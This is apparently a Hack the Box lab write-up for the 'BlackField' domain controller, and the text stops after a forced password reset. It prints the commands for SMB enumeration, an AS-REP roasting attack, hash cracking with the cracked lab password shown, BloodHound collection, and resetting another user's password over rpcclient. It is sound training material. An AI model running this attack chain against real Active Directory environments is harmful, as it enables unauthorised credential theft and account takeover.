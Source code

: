 # Hack the Box - BlackField


```CSS
Machine IP: 10.10.10.192
```

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.192 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.41 seconds
```

```CSS
▶ nmap -Pn -sC -sV -p 53,88,135,389,445,593,3268,5985 10.10.10.192 -oN services.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 13:56:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-20T13:57:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.98 seconds
```

---

## SMB Enumeration
  - Anonymous and Guest Enumeration 
```
▶ smbmap -H 10.10.10.192 -u guest
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee481776-6d35-4c5a-a235-099ce99ed714)

SMB shares reveal two non-default shares named `forensic` and `profiles$`. The share `forensic` is not accessible however read-only access is allowed on the `profiles$` share. 

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9a1f88cc-ce6c-4ee0-85b8-97579f3e5553)

---

## Kerberos
  - Kerberos Pre-Authentication Attack (ASREPRoast)
  - Craft a list of users to spray the users
```CSS
▶ smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' | tee users.txt
```
```CSS
▶ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/99b7e598-7179-457a-84ab-5ff137a3ed46)

---

## Hash Crack (krb5asrep)
```CSS
▶ john krb.hash --format=krb5asrep
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1bd2c405-2c01-48c3-aebe-e3b1b97e88c2)

```CSS
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
```

---

## BloodHound
```CSS
▶ bloodhound-python --username support --password '#00^BlackKnight' --domain blackfield.local --nameserver 10.10.10.192 --collectionmethod all
```
```CSS
▶ neo4j console
```
```CSS
▶ bloodhound --no-sandbox
```
Upload files generated by `bloodhound.py` to BloodHound console.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/67572013-e505-4437-8921-284955cd2e5c)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f5d0f98a-36f2-4e82-a700-49d3bdead4ee)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/315fb65d-46bb-4905-96c8-7d6e7eddd6ab)

---

## Force Change Password
```CSS
▶ rpcclient 10.10.10.192 -U 'support'
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 Password123
rpcclient $> exit
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4b07f036-6c38-40f5-8b0c-581a8047a5f5)
```CSS
▶ crackmapexec smb 10.10.10.192 -u audit2020 -p Password123
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/94bac7e7-3c7c-4326-8916-293ee0af15d5)

---


